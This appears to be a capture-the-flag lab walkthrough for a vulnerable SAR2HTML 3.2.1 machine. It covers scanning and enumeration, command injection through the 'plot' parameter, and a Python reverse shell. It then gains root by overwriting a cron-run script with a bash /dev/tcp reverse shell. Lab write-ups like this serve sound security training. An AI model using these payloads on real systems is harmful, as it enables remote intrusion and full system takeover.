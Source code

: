 # 🚩 SAR2HTML Exploitation and Privilege Escalation

## 🎯 Objective

Gain **remote shell access** to a vulnerable SAR2HTML web application, and then **escalate privileges to root** by exploiting a writable shell script executed via a cron job.

---

## 🔍 Step 1: Network Discovery

### 🔹 Discover Target IP

```bash
netdiscover -r 10.0.2.0/24
```

- Found target machine at: `10.0.2.6`

---

## 🔎 Step 2: Port Scanning

### 🔹 Run Nmap for Open Ports & Service Detection

```bash
nmap -A 10.0.2.6
```

- Found open port: **80 (HTTP)**

---

## 🌐 Step 3: Web Enumeration

### 🔹 Use Gobuster to Find Hidden Directories

```bash
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/common.txt
```

- Found: `/robots.txt`

### 🔹 robots.txt Content

```text
Disallow: /sar2HTML/
```

---

## 📁 Step 4: SAR2HTML Enumeration

- URL: `http://10.0.2.6/sar2HTML/`
- Detected **SAR2HTML v3.2.1**
- Vulnerable to **Remote Code Execution** via `plot` parameter

---

## 🧪 Step 5: Confirm Remote Code Execution

### Test RCE:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;whoami
```

- Response: `www-data` (confirms RCE)

---

## 🎯 Step 6: Get a Reverse Shell

[Parallel Way to Gain Access](./Parallel%20Way%20to%20Gain%20Access%20to%20sar2html%20Machine(METASPLOIT).mdParallel Way to Gain Access to sar2html Machine(METASPLOIT).md)



### Start Listener on Attacker Machine:

```bash
nc -lvnp 4444
```

### Exploit with Python3 Reverse Shell:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.2.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

> Replace `10.0.2.5` with your Kali IP. Use URL encoding if needed.

---

## 📦 Step 7: Post-Exploitation Enumeration

### Check Kernel Version

```bash
uname -r
```

- `5.0.0-23-generic`

### Find SUID Binaries

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

(No unusual binaries found for direct root exploit.)

---

## ⏱️ Step 8: Privilege Escalation via Cron Job

### Check Crontab

```bash
cat /etc/crontab
```

- Found interesting line:

```cron
*/5 * * * * root cd /var/www/html/ && sudo ./finally.sh
```

### View Script Contents

```bash
cat /var/www/html/finally.sh
```

```bash
#!/bin/sh
./write.sh
```

### Check Permissions on write.sh

```bash
ls -l /var/www/html/write.sh
```

- Result:

```bash
-rwxrwxrwx 1 www-data www-data 30 Oct 21  2019 write.sh
```

✅ Writable by `www-data`, and **executed by root via cron** → escalation vector.

---

## 🧨 Step 9: Modify Script to Spawn Root Shell

### Replace `write.sh` with Reverse Shell Payload:

On attack box, start listener:

```bash
nc -lvnp 1234
```

On target (remote shell):

```bash
echo '#!/bin/bash' > /var/www/html/write.sh
echo 'bash -i >& /dev/tcp/192.168.1.107/1234 0>&1' >> /var/www/html/write.sh
chmod +x /var/www/html/write.sh
```

Wait for cron to execute.

### ✅ Root Access Achieved

- Listener receives connection as `root`.

---

## ✅ Summary

| Step | Action |
|------|--------|
| Web RCE | Exploit SAR2HTML via `plot` param |
| Initial Shell | Python3 reverse shell |
| PrivEsc | Overwrite cron-executed `write.sh` |
| Final Shell | Got root reverse shell via cron |

---

## 🔑 Key Techniques Used

- Web Enumeration (Gobuster, robots.txt)
- RCE via unsanitized GET param
- Reverse Shell via Python
- Cron job privilege escalation
- Shell replacement using writable scripts

---

## 🧰 Tools Used

- `netdiscover`
- `nmap`
- `gobuster`
- `nc` (Netcat)
- Bash scripting
- Python3 reverse shell

---

## 📝 Notes

- If `bash -i >& /dev/tcp/...` fails, use full Python shell or encode URL
- Always check crontabs and SUID files during enumeration
- Try `linpeas.sh` or `pspy` for automated detection in real CTFs

---
